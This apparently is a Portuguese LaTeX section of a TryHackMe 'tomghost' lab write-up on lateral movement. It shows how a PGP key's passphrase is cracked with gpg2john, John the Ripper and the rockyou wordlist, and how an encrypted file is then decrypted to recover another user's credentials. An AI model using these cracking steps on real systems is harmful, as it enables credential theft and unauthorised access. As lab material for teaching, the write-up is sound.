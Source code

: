 \documentclass[12pt]{article}
\begin{document}
\section{Movimentação Lateral}

No diretório \textit{home} de \texttt{skyfuck}, encontramos dois arquivos relacionados a criptografia PGP: uma chave privada em formato ASCII-armored e um arquivo cifrado:

\begin{lstlisting}[caption={Arquivos PGP no home de skyfuck}, label={lst:pgpfiles}]
skyfuck@tomghost:~$ ls -la
-rw-rw-r-- 1 skyfuck skyfuck  5.6K credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck  5.1K tryhackme.asc
\end{lstlisting}

O arquivo \texttt{credential.pgp} está cifrado e, presumivelmente, guarda credenciais de outro usuário; a chave \texttt{tryhackme.asc} é a chave privada necessária para decifrá-lo, mas está protegida por uma \textit{passphrase}. A estratégia é quebrar essa \textit{passphrase} \textit{offline}.

Copiamos a chave para nossa máquina de ataque e a convertemos para um formato que o \textit{John the Ripper} entenda, usando o \texttt{gpg2john}:

\begin{lstlisting}[caption={Extração do hash da passphrase com gpg2john}, label={lst:gpg2john}]
$ gpg2john tryhackme.asc > hash.txt
\end{lstlisting}

Em seguida, executamos o John com a wordlist \textit{rockyou} para recuperar a \textit{passphrase}:

\begin{lstlisting}[caption={Quebra da passphrase com John the Ripper}, label={lst:john}]
$ john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
<PASSPHRASE>      (tryhackme)
\end{lstlisting}

De posse da \textit{passphrase}, voltamos à máquina alvo, importamos a chave e deciframos o arquivo \texttt{credential.pgp}:

\begin{lstlisting}[caption={Importação da chave e decifragem do arquivo}, label={lst:decrypt}]
skyfuck@tomghost:~$ gpg --import tryhackme.asc
skyfuck@tomghost:~$ gpg --decrypt credential.pgp
# (informe a passphrase <PASSPHRASE> quando solicitado)
merlin:<SENHA_MERLIN>
\end{lstlisting}
\end{document}
